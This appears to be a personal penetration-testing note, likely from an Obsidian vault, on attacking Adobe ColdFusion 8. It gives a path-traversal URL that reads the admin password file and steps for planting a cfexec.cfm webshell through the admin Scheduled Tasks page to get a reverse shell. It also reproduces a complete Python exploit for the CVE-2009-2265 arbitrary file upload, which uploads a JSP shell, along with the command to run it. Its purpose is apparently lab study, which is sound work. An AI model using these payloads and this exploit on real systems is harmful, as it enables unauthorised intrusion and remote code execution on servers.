```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Resources

https://pentest.tonyng.net/attacking-adobe-coldfusion/

http://dronesec.pw/blog/2014/04/02/lfi-to-stager-payload-in-coldfusion/

https://github.com/hatRiot/clusterd/blob/master/src/platform/coldfusion/deployers/lfi_stager.py

https://www.exploit-db.com/exploits/27755

---

#### ColdFusion Password attack
```
http://10.11.1.10/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

[[TechLexicon/Penetration Testing/Reference/7._Tools/Hashcat#Sha1]]

#### Admin page reverse shell
Find the local path: mappings
![[Pasted image 20220613153218.png]]

Debugging & Logging > Scheduled Tasks > Schedule New Task

```
cp /usr/share/webshells/cfm/cfexec.cfm .
```

OR 

create a malicious jsp and follow similar steps! >>>

![[0._Reverse shells (WEB)#jsp]]

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

Provide Task Name.
For Frequency, set for just a few minutes in advance from current time.

**MAKE SURE TO  CHECK THE PUBLISH BOX!**

For file path, use the path found from mappings page: `C:\Inetpub\wwwroot\CFIDE\cfexec.cfm`

![[Pasted image 20220613154728.png]]

After hitting submit, can run tasks right away (Green button), then visit exploit to launch.

`http://$TARGET:/CFIDE/cfexe.cfm`

[[1._Reverse Shells (WIN)#Stageless Payloads]]

[[4._File Transfers]]

![[Pasted image 20220613155208.png]]

[[rlwrap]]

#### ColdFusion 8 FileUpload

https://forum.hackthebox.com/t/python-coldfusion-8-0-1-arbitrary-file-upload/108

FileUpload.py
```python - kali
#!/usr/bin/python
# Exploit Title: ColdFusion 8.0.1 - Arbitrary File Upload
# Date: 2017-10-16
# Exploit Author: Alexander Reid
# Vendor Homepage: http://www.adobe.com/products/coldfusion-family.html
# Version: ColdFusion 8.0.1
# CVE: CVE-2009-2265 
# 
# Description: 
# A standalone proof of concept that demonstrates an arbitrary file upload vulnerability in ColdFusion 8.0.1
# Uploads the specified jsp file to the remote server.
#
# Usage: ./exploit.py <target ip> <target port> [/path/to/coldfusion] </path/to/payload.jsp>
# Example: ./exploit.py 127.0.0.1 8500 /home/arrexel/shell.jsp
import requests, sys

try:
    ip = sys.argv[1]
    port = sys.argv[2]
    if len(sys.argv) == 5:
        path = sys.argv[3]
        with open(sys.argv[4], 'r') as payload:
            body=payload.read()
    else:
        path = ""
        with open(sys.argv[3], 'r') as payload:
            body=payload.read()
except IndexError:
    print 'Usage: ./exploit.py <target ip/hostname> <target port> [/path/to/coldfusion] </path/to/payload.jsp>'
    print 'Example: ./exploit.py example.com 8500 /home/arrexel/shell.jsp'
    sys.exit(-1)

basepath = "http://" + ip + ":" + port + path

print 'Sending payload...'

try:
    req = requests.post(basepath + "/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/exploit.jsp%00", files={'newfile': ('exploit.txt', body, 'application/x-java-archive')}, timeout=30)
    if req.status_code == 200:
        print 'Successfully uploaded payload!\nFind it at ' + basepath + '/userfiles/file/exploit.jsp'
    else:
        print 'Failed to upload payload... ' + str(req.status_code) + ' ' + req.reason
except requests.Timeout:
    print 'Failed to upload payload... Request timed out'
```

![[0._Reverse shells (WEB)#jsp]]

![[rlwrap]]

```bash - kali
python FileUpload.py $TARGET 8500 shell.jsp 
```


---


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
